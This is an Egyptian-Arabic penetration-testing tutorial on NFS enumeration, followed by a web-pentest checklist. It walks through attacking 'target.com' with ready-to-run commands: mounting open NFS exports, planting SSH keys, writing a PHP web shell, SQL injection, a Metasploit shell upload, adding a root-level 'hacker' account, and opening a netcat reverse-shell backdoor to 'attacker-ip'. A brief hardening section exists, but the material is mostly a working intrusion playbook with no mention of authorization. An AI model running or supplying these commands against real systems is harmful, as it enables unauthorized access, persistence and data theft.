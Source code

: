 ## 🔥 **شرح عميق ومبسط جدًا لـ `NFS Enumeration` في Network Enumeration**

### **🚀 1. يعني إيه NFS؟**

**NFS (Network File System)** هو بروتوكول بيسمح بمشاركة الملفات بين الأجهزة على الشبكة وكأنها مجلدات محلية، وغالبًا بيستخدم في **أنظمة Linux و UNIX**.

### **🔍 طيب ليه ده مهم؟**

✅ لو السيرفر مش مأمن كويس، أي حد في الشبكة ممكن يشوف الملفات أو حتى يعدل عليها!  
✅ لو فيه صلاحيات كتابة، ممكن ترفع **ملف ضار أو Shell** وتتحكم في السيرفر.  
✅ ممكن تلاقي **ملفات فيها كلمات مرور** أو بيانات حساسة جدًا.

🟢 **الخلاصة بالعامية المصرية:**  
NFS بيخليك تشارك ملفات بين الأجهزة، ولو مش مأمن، ممكن تشوف وتعدل ملفات خطيرة على السيرفر!

---

### **🛠️ 2. اكتشاف إذا كان NFS شغال على السيرفر**

#### ✅ **فحص المنافذ المفتوحة باستخدام Nmap:**

```bash
nmap -p 2049 --script=nfs-ls,nfs-statfs,nfs-showmount target.com
```

🔹 البروتوكول دايماً بيشتغل على **البورت 2049**.  
🔹 `nfs-ls` → بيعرض الملفات المتاحة للمشاركة.  
🔹 `nfs-showmount` → بيعرض المجلدات المشتركة.

🟢 **الخلاصة بالعامية المصرية:**  
لو السيرفر بيستخدم NFS، هنلاقيه شغال على **البورت 2049** ونشوف المجلدات المتاحة.

---

### **🔎 3. معرفة المجلدات المتاحة للمشاركة**

#### ✅ **استخدام أمر `showmount` لاستكشاف الـ NFS Shares**

```bash
showmount -e target.com
```

🔹 هيعرض كل **المجلدات المشتركة** ومين مسموح له يوصل لها.

#### 📌 **لو النتيجة كانت كده:**

```bash
Export list for target.com:
/backup         *
/home/shared    192.168.1.0/24
```

🔹 `/backup` → مفتوح **لأي حد** (كارثة أمنية 🔥).  
🔹 `/home/shared` → متاح بس لأجهزة في **نطاق معين**.

🟢 **الخلاصة بالعامية المصرية:**  
بأمر `showmount` هنعرف كل المجلدات اللي السيرفر مشاركها، ولو في مجلد متاح للكل، يبقى ممكن نستغله!

---

### **📂 4. محاولة تركيب (Mount) المجلدات على جهازك**

#### ✅ **لو المجلد متاح للجميع، ممكن تركبه على جهازك كأنه فولدر محلي:**

```bash
mkdir /mnt/nfs
mount -t nfs target.com:/backup /mnt/nfs
```

🔹 كده تقدر **تشوف كل الملفات وتعدل عليها** لو عندك صلاحيات!  
🔹 جرب تدور على **ملفات فيها بيانات حساسة**:

```bash
ls -la /mnt/nfs
cat /mnt/nfs/passwords.txt
```

🟢 **الخلاصة بالعامية المصرية:**  
لو المجلد متاح، هنقدر نحطه كأنه فولدر عادي على جهازنا ونشوف كل اللي فيه، ولو في ملفات سرية، يبقى Jackpot! 🎯

---

### **💀 5. استغلال الصلاحيات لتنفيذ هجمات**

#### ✅ **لو عندك صلاحيات كتابة، جرب ترفع ملف ضار!**

1️⃣ **إنشاء ملف SSH Key عشان تدخل السيرفر Root:**

```bash
ssh-keygen -f mykey
cat mykey.pub >> /mnt/nfs/home/user/.ssh/authorized_keys
ssh -i mykey user@target.com
```

🔹 لو المجلد `/home/user/` مشترك، ممكن نرفع مفتاح SSH وندخل بدون باسورد.

2️⃣ **رفع Reverse Shell لو المجلد مشترك مع `/var/www/html/` (مجلد موقع ويب):**

```bash
echo '<?php system($_GET["cmd"]); ?>' > /mnt/nfs/evil.php
```

🔹 دلوقتي تقدر تنفذ أوامر على السيرفر من المتصفح:

```
http://target.com/evil.php?cmd=whoami
```

🟢 **الخلاصة بالعامية المصرية:**  
لو عندك صلاحيات كتابة، ممكن ترفع Shell أو تضيف مفتاح SSH وتتحكم في السيرفر بالكامل! 😈

---

### **🔐 6. كيف تتأكد أن السيرفر آمن؟**

✅ **لازم تحدد الأجهزة المسموح لها بالدخول في `/etc/exports`**  
✅ **استخدم `root_squash` لمنع أي حد من تشغيل ملفات بصلاحيات root**  
✅ **قفل المجلدات المشتركة أو السماح بها فقط للمستخدمين الموثوقين**  
✅ **استخدم `firewall` لتحديد من يقدر يدخل على البورت 2049**

🟢 **الخلاصة بالعامية المصرية:**  
لو السيرفر مأمن صح، مش هتلاقي مجلدات متاحة للكل، ولو لقيت حاجة مفتوحة، فدي فرصة ذهبية للاختراق!

---

## **🚀 خطوات عملية لـ Web Pentesting**

### **1️⃣ جمع المعلومات (Reconnaissance)**

✅ **اكتشاف السيرفرات الفرعية:**

```bash
subfinder -d target.com
```

✅ **البحث عن صفحات مخفية:**

```bash
gobuster dir -u https://target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

✅ **البحث عن أخطاء في الكود:**

- البحث عن تسريبات في **GitHub**
- البحث عن الدومين في **Shodan**

```bash
shodan search target.com
```

---

### **2️⃣ فحص الثغرات (Scanning & Enumeration)**

✅ **البحث عن المنافذ المفتوحة:**

```bash
nmap -sV -sC -T4 target.com
```

✅ **البحث عن SQL Injection:**

```bash
sqlmap -u "https://target.com/login.php?id=1" --dbs
```

---

### **3️⃣ استغلال الثغرات (Exploitation)**

✅ **XSS Injection**

```html
<script>alert('Hacked!')</script>
```

✅ **رفع Shell عبر File Upload Bypass**

- رفع ملف **PHP Reverse Shell**
- الاتصال بالسيرفر باستخدام Netcat:

```bash
nc -lvnp 4444
```

✅ **اختراق باستخدام Metasploit**

```bash
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS target.com
set USERNAME admin
set PASSWORD password123
exploit
```

---

### **4️⃣ الحصول على صلاحيات أعلى (Privilege Escalation)**

✅ **البحث عن كلمات مرور مخزنة:**

```bash
find / -name "*.config" 2>/dev/null
```

✅ **محاولة كسر كلمة مرور مستخدم Root:**

```bash
sudo -l
```

✅ **استغلال Kernel Exploits:**

```bash
searchsploit linux kernel privilege escalation
```

---

### **5️⃣ السيطرة الكاملة على السيرفر (Post-Exploitation)**

✅ **إضافة مستخدم جديد بصلاحيات Root:**

```bash
useradd -m -p $(openssl passwd -1 newpassword) hacker
usermod -aG sudo hacker
```

✅ **عمل Backdoor للاستمرار في التحكم:**

```bash
nc -e /bin/bash attacker-ip 4444
```

✅ **استخراج البيانات الحساسة:**

```bash
cat /etc/passwd
```

---

### **🚀 الخلاصة النهائية:**

1️⃣ **ابدأ بجمع المعلومات عن الموقع**  
2️⃣ **افحص المنافذ والثغرات**  
3️⃣ **حاول استغلال الثغرات**  
4️⃣ **ابحث عن طرق للحصول على صلاحيات أعلى**  
5️⃣ **حافظ على التحكم في السيرفر**

🔥 **كده معاك دليل كامل لـ `NFS Enumeration` + Web Pentesting!** 💀💻